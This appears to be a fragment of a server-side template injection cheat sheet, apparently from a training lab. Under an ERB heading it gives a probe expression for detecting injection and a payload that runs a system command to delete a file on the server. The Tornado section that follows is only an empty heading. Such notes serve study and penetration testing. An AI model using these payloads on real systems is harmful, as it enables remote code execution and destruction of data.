 ### Template engines

---

> ### ERB Template

![image](https://github.com/user-attachments/assets/a450ff01-9658-4007-bde3-69242f5425e3)  

Identify - `<%= someExpression %>`  
`<%= 7*7 %>` confirms there is SSTI,  
```py
payload - `<%= system("rm /home/carlos/morale.txt") %>` # Modify as per requirement
```

---

> ### Tornado Template

